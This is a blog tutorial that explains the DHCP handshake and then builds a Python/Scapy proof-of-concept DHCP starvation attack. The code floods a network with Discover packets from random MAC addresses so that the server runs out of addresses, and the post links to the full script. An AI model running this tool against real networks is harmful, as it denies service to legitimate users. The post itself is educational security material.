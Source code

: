 ```yaml
---
title: Performing a DHCP starvation attack
pubDate: "March 09 2024"
description: Understanding and performing a DHCP starvation attack over DHCP servers and networks.
tags: ["security", "networks", "hacking", "python"]
heroImage: "/blog/2024-03-09-dhcp-starvation-attack/logo.png"
---
```


To understand what a DHCP starvation attack is, it is important to understand what a DHCP server is and how this protocol works. A DHCP server is a network component in charge of assigning IPs to different devices, associating the physical or MAC address to an IP. This process allows communication between the different devices, using the assigned IPs to identify each other and communicate. The DHCP protocol has up to 4 phases that make it up.
The first phase is the discovery phase, in which a client connecting to the network broadcasts a DHCP discovery message or "DHCP Discover". The purpose of this message is to find a DHCP server by sending a broadcast message from which it will expect a response.
The second phase is the offer phase. In this phase the DHCP server responds to the initial message with an offer of an available IP address (also known as a "DHCP Offer") and a number of other network parameters.
The third phase is the request phase. In this phase, the client makes a request in order to accept the DHCP server's offer. This message is called "DHCP Request". This message is also broadcast in order to additionally inform the other DHCP servers (if any) that their offers have been rejected in favor of another server.
The fourth and last phase is the acknowledgement phase. In this phase the DHCP server issues the confirmation to the client by means of a message called "DHCP ACK". From this point on, the client can start communicating over the network.

A "DHCP starvation" attack is a type of malicious attack targeting networks that use the DHCP protocol for IP address allocation. The goal of this attack is to exhaust all the IP addresses available to the DHCP server in order to make it impossible for new devices to connect to the server, even causing a denial of service attack. For them we just need to generate multiple DHCP server discovery packets with different MAC addresses in order to exhaust all of them. Additionally, we can respond to all offers by accepting and occupying them. In this way we will exhaust all IP addresses, preventing new devices from connecting.

Next we are going to see how to do a small proof of concept of this attack, developing a Python script. The first thing to do is to install the necessary dependencies, in this case, the network packet manipulation library "Scapy".

```sh
pip install scapy
```

Let's start with the python code. Before starting to build packets, it is necessary to configure Scapy to ignore IP address verification responses, since we will be sending packets with forged IP addresses.

```python
conf.checkIPaddr = False
```

Once the basic configuration of Scapy is done, we move on to define our main function "starve". This function will receive a dictionary of parameters. It is not the best way to do this step, but for a quick script it is enough. The main parameters we will use will be: Delay time between each packet sent, network to attack and network interface through which we want to perform the attack.

```python
def starve(params):
    delay = params['delay'] if params.get('delay') is not None else 0.5
    network = params['network'] if params.get('network') is not None else '192.168.1.0/24'
    interface = params['interface'] if params.get('interface') is not None else 'eth0'
    is_verbose = params['verbose'] if params.get('verbose') is not None else 1
```

In the main loop of the starve function, we generate DHCP Discover packets with random MAC addresses, requesting specific IP addresses within the target network.

```python
for ip_dir in ips_for_feeding:
    src_mac = RandMAC()

    ether = Ether(src=src_mac, dst='ff:ff:ff:ff:ff:ff')
    ip = IP(src='0.0.0.0', dst='255.255.255.255')
    udp = UDP(sport=68, dport=67)
    bootp = BOOTP(op=1, chaddr=src_mac)
    dhcp = DHCP(options=[
        ('message-type', 'discover'), 
        ('requested_addr', str(ip_dir)),
        ('end')])

    packet = ether / ip / udp / bootp / dhcp

    sendp(packet, iface=interface, verbose=is_verbose)

    sleep(delay)
```

Finally and outside the function, we will add the command line arguments so that the user can specify all the above parameters. This will be done using the "argparse" library already included in python.

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--network', 
        type=str,
        nargs='?',
        help='IP address of the network (e.g. 192.168.1.0/24)',
    )
    parser.add_argument(
        '--delay', 
        type=str,
        nargs='?',
        help='Delay in seconds for each packet',
    )
    parser.add_argument(
        '--interface', 
        type=str,
        nargs='?',
        help='Interface to attack (eth0 as default)',
    )
    parser.add_argument(
        '--verbose', 
        type=int,
        nargs='?',
        help='Verbose mode 1=ON 0=OFF (1 as default)',
    )
    params = vars(parser.parse_args())
    starve(params)
```

The complete script code: [dhcp_starvation_attack.py](https://gist.github.com/jparadadev/ade6fa41d8e86f35c04bac09af86aa09)


